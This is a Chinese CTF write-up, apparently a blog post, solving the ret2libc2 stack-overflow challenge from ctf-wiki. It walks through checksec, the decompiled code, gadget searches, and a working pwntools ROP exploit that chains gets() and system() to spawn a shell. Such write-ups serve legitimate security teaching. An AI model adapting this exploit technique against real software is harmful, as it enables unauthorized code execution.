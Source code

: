 ```yaml
---
layout: post
title: CTF-PWN实例4（ret2libc2）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/4
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例4（ret2libc2）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2libc/ret2libc2

## 程序保护：

```shell
$ checksec ret2libc2
```

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

首先这里依旧开启了NX保护。

## 程序信息：

```shell
file ret2libc2
ret2libc2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=83535a471d9ef90c3d5ff7f077944fb6021787a1, not stripped
```

依旧动态链接。

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("Something surprise here, but I don't think it will work.");
  printf("What do you think ?");
  gets((char *)&v4);
  return 0;
}
```

这里依旧是gets()函数造成溢出。但是这里我们可以在函数列表发现system函数。查看此函数的调用点。

```c
void secure()
{
  unsigned int v0; // eax@1
  int input; // [sp+18h] [bp-10h]@1
  int secretcode; // [sp+1Ch] [bp-Ch]@1

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf((const char *)&unk_8048760, &input);
  if ( input == secretcode )
    system("no_shell_QQ");
}
```

sysrem函数中的参数依然存在问题。

### 二、cyclic和pwndbg判断偏移量

偏移量依然是112，就不做过多篇幅。

### 三、编写EXP

思路：

根据上一题思路。

依然在程序中查找“/bin/sh”字符串，

```
$ ROPgadget --binary ret2libc2 --string '/bin/sh'
Strings information
============================================================
```

发现在程序中找不到相关字符串。

这时候可以利用gets()函数讲‘/bin/sh’这个字符串读取到栈中，然后调用即可。这时候我们得shellcode就需要两个函数，两个函数的链接就需要继续用到ROP将两个函数链接。而其中的以ret结尾的代码就叫gadget。

这里我们使用ROPgadget查找一个pop ebx；ret的地址。其实这里主要是通过

```shell
$ ROPgadget --binary ret2libc2 --only 'pop|ret' |grep 'ebx'
0x0804872c : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804843d : pop ebx ; ret
```

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('./ret2libc2')
elf = ELF('./ret2libc2')
rop = ROP(elf)

if args.G:     #开启调试标记
    gdb.attach(p)

p.sendline('a'*112+p32(elf.plt['gets'])+p32(0x0804843d)+p32(elf.bss()+0X100)\
           +p32(elf.plt['system'])+'aaaa'+p32(elf.bss()+0X100))

p.interactive()
```

这里rop的利用主要是将两个函数进行链接，让gets函数的返回地址返回到system继续执行。

## 总结

rop技术需要良好的汇编基础，所以目前例子只是简单使用，之后会有详细介绍。